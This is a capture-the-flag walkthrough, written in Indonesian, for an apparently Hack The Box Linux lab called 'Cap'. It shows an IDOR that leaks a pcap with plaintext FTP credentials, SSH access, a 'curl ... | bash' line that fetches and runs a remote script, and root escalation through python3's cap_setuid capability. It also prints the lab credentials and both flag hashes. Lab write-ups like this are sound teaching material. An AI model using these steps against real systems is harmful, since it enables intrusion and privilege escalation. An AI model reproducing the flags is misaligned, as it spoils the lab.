

Cap adalah mesin Linux dengan tingkat kesulitan yang mudah yang menjalankan server HTTP yang menjalankan fungsi administratif termasuk melakukan penangkapan jaringan. Kontrol yang tidak tepat mengakibatkan Insecure Direct Object Reference (IDOR) memberikan akses ke pengguna lain.

## Reconnaissance

Tahapan pertama yang harus kita lakukan adalah melakukan enumerasi open port dan service yang sedang berjalan di mesin dengan menggunakan tools `nmap` 

```bash
└─$ sudo nmap -sV -sC 10.10.10.245 
[sudo] password for w1thre: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-09 07:08 WIB
Nmap scan report for 10.10.10.245
Host is up (0.022s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 08 Feb 2025 23:52:08 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 08 Feb 2025 23:52:02 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 08 Feb 2025 23:52:02 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.55 seconds
```

### Analysis of Scan Result

- Port `21` menjalankan service ftp dengan versi vsftpd 3.0.3
- Port 22 menjalankan service ssh dengan versi OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
- Port 80 menjalankan service web server gunicorn yang merupakan Python Web Server Gateway Interface HTTP server dengan bahasa pemrograman Flask

### Enumerate FTP

Kita bisa coba untuk mengakses FTP dengan anonymous, dengan tujuan apakah FTP ini mengizinkan akses anonim.

```bash
└─$ ftp 10.10.10.245 
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:w1thre): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
```

Ternyata login belum berhasil, yang artinya akses secara anonim tidak diperbolehkan.

### Checking HTTP

Selanjutnya kita check website yang sedang berjalan pada port 80 yang menjalan kan service Gunicorn. Gunicorn ini merupakan HTTP Server berbasis python. Disini dapat kita lihat ketika kita akses website nya terdapat Dashboard page dengan menu Security Snapshot, IP Config, Network Status.



Pada menu Security Snapshot, terdapat tombol download yang nantinya ketika kita klik tombol Download tersebut, maka akan mendownload file .pcap yang bisa kita analisis menggunakan WireShark


Di halaman IP Config menampilkan output command ifconfig dengan IP Address yang muncul yaitu IP Server mesinnya.


Di Network Status, memunculkan output command netstat, dan kita bisa lihat ip kita yang sedang mengakses web server ini.


Kita coba kembali ke halaman Security Snapshot, Download file .pcap nya dan kita coba analisis di WireShark.


Dari hasil analysis .pcap file disini hanya berisi HTTP traffic dari kita.

### Insecure Direct Object Reference (IDOR)

> IDOR adalah jenis kerentanan kontrol akses yang muncul saat aplikasi menggunakan input yang disediakan pengguna untuk mengakses objek secara langsung.
> 

Satu hal yang menarik dari website ini ketika kita mengakses halaman Security Snapshot, pada URL scheme /data/id akan melakukan increment setiap kali user mengakses halaman tersebut. Dengan asumsi website akan menangkap packet dari pengguna.


Disini kita coba mengganti id nya menjadi 0, dengan harapan terdapat kerentanan IDOR yang nantinya kita bisa lihat hasil packet capture dari user lainnya.


Coba kita periksa file .pcap dari user ini untuk mendapatkan potensi data sensitif.

## Foothold

Ketika kita analisis file .pcap pada ID 0 menggunakan WireShark, dapat kita lihat bahwa isinya terdapat traffic dari FTP service termasuk dengan data user autentikasi yang kita butuhkan untuk tahap selanjutnya. Hal ini dikarenakan traffic tidak dienkripsi sehingga kita dapat melihat plaintext data sensitif.

 


Kita berhasil mendapatkan credentials nathan:Buck3tH4TF0RM3!

Coba kita akses FTP menggunakan credentials tersebut.

```bash
└─$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:w1thre): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||16857|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Feb 08 23:47 user.txt
226 Directory send OK.
ftp> 
```

Namun, hasilnya tidak terdapat apa-apa. Sekarang kita coba akses SSH menggunakan creds tersebut.

```bash
└─$ ssh nathan@10.10.10.245               
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Feb  9 00:39:07 UTC 2025

  System load:  0.0               Processes:             225
  Usage of /:   36.6% of 8.73GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.10.245
  Swap usage:   0%

  => There are 4 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

Yup! kita berhasil mendapatkan akses. Kita bisa mendapatkan flag untuk user.

```bash
nathan@cap:~$ ls                                                                             
user.txt                                                                                     
nathan@cap:~$ cat user.txt                                                                   
853913c0b7fd6ce29054cb2aab0b7d7e
```

## Privilege Escalation

Setelah mendapatkan flag user. Kita harus melakukan Privilege Escalation dimana kita harus menjadi root untuk mendapatkan flag root nya. Disini saya menggunakan script linPEAS untuk melakukan check terhadap potensi attack vector untuk privesc. 

Untuk mendapatkan script linPEAS di target mesin, kita bisa menggunakan python web server dengan menjalankan command berikut di host kita (dengan lokasi linPEAS berada):

```bash
└─$ sudo python3 -m http.server 80         
[sudo] password for w1thre: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Selanjutnya kita bisa download script tersebut ke attack vm serta langsung di execute, dengan cara:

```bash
nathan@cap:~$ curl http://10.10.14.26/linpeas.sh | bash
```

Setelah di execute, ketika kita analisa terdapat report Files with capabilities:

```bash
Files with capabilities (limited to 50):
**/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip**
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Kita bisa menjalankan cap_setuid dimana kita bisa menukar setuid kita menjadi uid root (0). Langsung saja kita coba seperti berikut:

```bash
nathan@cap:~$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:~# 

```

Yup! kita berhasil menjadi root 😂. Disini kita menggunakan os.setuid(0) untuk melakukan modifikasi terhadap user identifier (UID). Dan kita bisa mendapatkan flag rootnya di /root 

```bash
root@cap:~# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt
8d704cce655557b0dd7383e99e47c48d
```

## Flags

| User | 853913c0b7fd6ce29054cb2aab0b7d7e |
| --- | --- |
| Root | 8d704cce655557b0dd7383e99e47c48d |

## Useful Links

[https://man7.org/linux/man-pages/man7/capabilities.7.html](https://man7.org/linux/man-pages/man7/capabilities.7.html)